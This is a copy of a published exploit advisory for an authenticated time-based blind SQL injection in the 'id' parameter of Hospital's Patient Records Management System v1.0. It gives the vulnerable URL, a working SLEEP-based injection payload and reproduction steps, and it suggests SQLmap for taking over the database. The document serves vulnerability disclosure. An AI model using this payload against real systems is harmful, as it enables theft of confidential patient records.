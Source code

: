 # Hospital's Patient Records Management System v1.0 - 'id' SQL Injection (Authenticated)
Original link : [https://www.exploit-db.com/exploits/50630](https://www.exploit-db.com/exploits/50630)
```bash
# Exploit Title: Hospital's Patient Records Management System v1.0 - 'id' SQL Injection (Authenticated)
# Date: 2021-12-30
# Exploit Author: twseptian
# Vendor Homepage: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hprms_0.zip
# Version: v1.0
# Tested on: Kali Linux 2021.4
```

## SQL Injection
SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Hospital's Patient Records Management System v1.0 is vulnerable to SQL injection via the 'id' parameter on the patient list.

## Attack Vector
An attacker can compromise the database of the application using some automated(or manual) tools like SQLmap.

## Steps of reproduce:
- Step-1: On the dashboard navigate to 'Patient List', then go to 'Action' > 'View Records' page using the following URL:
http://localhost/hprms/admin/?page=patients/view_patient&id=1

- Step-2: Put the SQL Injection payloads in 'id' field.
time-based blind payload : `page=patients/view_patient&id=1' AND (SELECT 2664 FROM (SELECT(SLEEP(5)))ixec) AND 'XcAY'='XcAY`

- Step-3: Now, the Server target accepted our payload and the response got delayed by 5 seconds.
